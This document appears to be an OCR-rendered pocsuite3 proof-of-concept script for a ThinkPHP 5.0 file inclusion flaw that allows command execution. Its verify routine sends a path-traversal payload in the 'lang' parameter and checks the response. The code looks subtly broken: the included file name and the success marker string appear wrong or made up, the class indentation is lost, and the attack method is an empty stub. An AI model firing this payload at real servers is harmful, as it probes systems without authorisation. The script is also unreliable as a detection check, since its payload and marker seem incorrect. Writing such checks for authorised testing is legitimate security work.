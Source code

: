     
    
    import pocsuite3  
    from pocsuite3.api import requests as req  
    from pocsuite3.api import register_poc  
    from pocsuite3.api import Output, POCBase  
      
    class ThinkPHP5_File_Inclusion(POCBase):  
    vulID = '12345'  
    version = '1.0'  
    author = 'test'  
    vulDate = '2022-12-09'  
    createDate = '2022-12-09'  
    updateDate = '2022-12-09'  
    references = ['https://tttang.com/archive/1865/']  
    name = 'ThinkPHP5 File Inclusion Vulnerability'  
    appPowerLink = 'https://thinkphp.cn'  
    appName = 'ThinkPHP'  
    appVersion = '5.0'  
    vulType = 'File Inclusion'  
    desc = '''  
    This POC checks for a file inclusion vulnerability in ThinkPHP 5.0.  
    To exploit this vulnerability, the LANG_SWITCH_ON value in the config.php file must be set to true,  
    and a malicious lang parameter must be passed in the URL. This can allow an attacker to include the  
    phearcmd.php file and execute arbitrary commands.  
    '''  
    samples = ['']  
      
    def _attack(self):  
        # your code here  
        pass  
      
    def _verify(self):  
        result = {}  
        # your code here  
        # send a request with a malicious lang parameter  
        url = self.url + '?lang=../phearcmd.php'  
        r = req.get(url)  
      
        # check if the phearcmd.php file was included  
        if 'PhearCommand execution' in r.text:  
            result['VerifyInfo'] = {}  
            result['VerifyInfo']['URL'] = url  
      
        return self.parse_output(result)  
      
    def parse_output(self, result):  
        output = Output(self)  
        if result:  
            output.success(result)  
        else:  
            output.fail('The vulnerability could not be verified')  
        return output  
      